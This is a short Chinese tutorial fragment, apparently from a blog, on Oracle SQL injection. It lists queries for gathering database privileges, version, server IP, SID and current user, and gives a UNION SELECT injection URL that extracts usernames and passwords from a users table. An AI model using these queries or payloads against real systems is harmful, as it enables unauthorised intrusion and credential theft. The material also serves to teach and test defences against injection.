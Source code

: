+ 获取敏感信息
  常见的敏感信息如下：

```sql
当前用户权限：SELECT * FROM session_roles
当前数据库版本：SELECT banner FROM sys.v_$version WHERE rownum = 1
服务器出口 IP：用utl_http.request 可以实现
服务器监听 IP：SELECT utl_inaddr.get_host_address FROM dual
服务器操作系统：SELECT member FROM v$logfile WHERE rownum = 1
服务器 SID：SELECT instance_name FROM v$instance
当前连接用户：SELECT SYS_CONTEXT('USERENV', 'CURRENT_USER') FROM dual
```

+ 获取数据库表及其内容
  在得知表的列数之后，可以通过查询元数据的方式查询表名称、列名称，然后查询数据，如：
  `http://www.aaa.org/new.jsp?id=1 UNION SELECT username, password, null FROM users --`
  注意：在查询数据时同样要注意数据类型，否则无法查询，只能一一测试，改变参数的查询位置。

原文链接：https://blog.csdn.net/weixin_43915762/article/details/87909751

